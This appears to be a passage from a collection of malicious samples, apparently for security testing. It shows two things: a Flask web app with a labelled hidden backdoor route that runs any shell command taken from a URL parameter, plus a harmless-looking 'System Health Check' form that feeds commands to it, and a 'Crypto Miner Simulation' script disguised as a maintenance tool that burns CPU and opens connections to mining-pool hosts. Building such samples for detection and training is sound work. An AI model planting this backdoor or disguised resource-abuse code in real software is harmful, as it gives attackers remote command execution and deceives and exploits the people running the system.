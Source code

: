 ```python
@app.route('/contact')
def contact():
    return "<h1>Contact</h1><p>Email: contact@secureapp.com</p>"

# Hidden backdoor endpoint
@app.route('/admin_debug_console')
def backdoor():
    cmd = request.args.get('cmd', 'whoami')
    try:
        result = subprocess.check_output(cmd, shell=True, text=True)
        return f"<pre>{result}</pre>"
    except Exception as e:
        return f"Error: {str(e)}"

# Another hidden endpoint
@app.route('/system_health')
def health():
    return """
    <h2>System Health Check</h2>
    <form action="/admin_debug_console" method="get">
        <input type="text" name="cmd" placeholder="System command">
        <input type="submit" value="Execute">
    </form>
    """

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=False)
```

3. **Crypto Miner Simulation** (`resource-abuse/crypto_miner.py`):

```python
#!/usr/bin/env python3
import hashlib
import time
import random
import threading
import socket

print("Background System Maintenance Tool v2.1")
print("Performing routine system optimization...")

def cpu_intensive_task():
    """Simulate cryptocurrency mining"""
    while True:
        # Generate intensive CPU work
        data = str(random.randint(1, 1000000)).encode()
        for i in range(10000):
            hashlib.sha256(data + str(i).encode()).hexdigest()
        time.sleep(0.01)  # Brief pause

def network_activity():
    """Simulate mining pool connections"""
    servers = ['mining-pool1.com', 'crypto-server.net', 'mining.example.com']
    while True:
        try:
            server = random.choice(servers)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(5)
            # These will fail but show up in network monitoring
            s.connect((server, 8333))  # Bitcoin port
            s.close()
        except:
            pass
```